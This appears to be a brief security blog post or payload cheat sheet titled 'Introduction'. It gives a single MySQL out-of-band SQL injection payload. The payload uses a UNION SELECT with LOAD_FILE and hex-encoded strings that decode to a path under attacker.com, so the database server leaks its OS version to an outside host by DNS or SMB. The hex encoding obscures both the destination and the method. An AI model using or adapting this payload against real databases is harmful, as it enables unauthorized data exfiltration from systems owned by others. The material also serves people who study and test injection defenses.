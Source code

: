 ```yaml
---
layout: post
title: "Introduction"
author: "Sahil Dhar"
---
```




## Code Snippets

###\[MySQL\] Out of Band SQL Injection \[Without Quotes\] 

```mysql
12,13) union select LOAD_FILE(group_concat(0x2f2f2f2f,(select @@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2 -- 
```

